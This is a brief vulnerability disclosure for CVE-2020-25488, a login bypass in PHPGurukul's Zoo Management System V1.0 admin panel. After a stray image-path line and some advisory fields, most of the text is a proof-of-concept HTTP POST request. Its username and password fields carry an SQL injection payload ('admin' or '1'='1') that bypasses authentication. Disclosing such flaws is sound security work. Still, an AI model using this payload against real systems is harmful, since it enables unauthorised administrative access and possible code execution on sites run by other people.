 # CVE-2020-25488
#Login Bypass in Zoo Management System V1.0

#Vendor - https://phpgurukul.com

#Product - https://phpgurukul.com/zoo-management-system-using-php-and-mysql/

#Vulnerability Type - Incorrect Access Control

#Affected Component - Admin Login Panel ( /zms/admin/index.php )

#Attack Type- Local

#Impact Code execution - true

#Attack Vectors - Admin Login can be bypassed 

#Proof :

POST /zms/admin/index.php HTTP/1.1 Host: 192.168.1.12

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0 

Accept:text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 

Accept-Language: en-US,en;q=0.5 

Accept-Encoding: gzip,deflate 

Referer:http://192.168.1.12/zms/admin/index.php

Content-Type: application/x-www-form-urlencoded

Content-Length: 78 Connection: close Cookie:

PHPSESSID=bdd3dc746e4a4dc4e8946fea7514bb54

Upgrade-Insecure-Requests: 1

username=admin%27+or+%271%27%3D%271&password=admin%27+or+%271%27%3D%271&login=

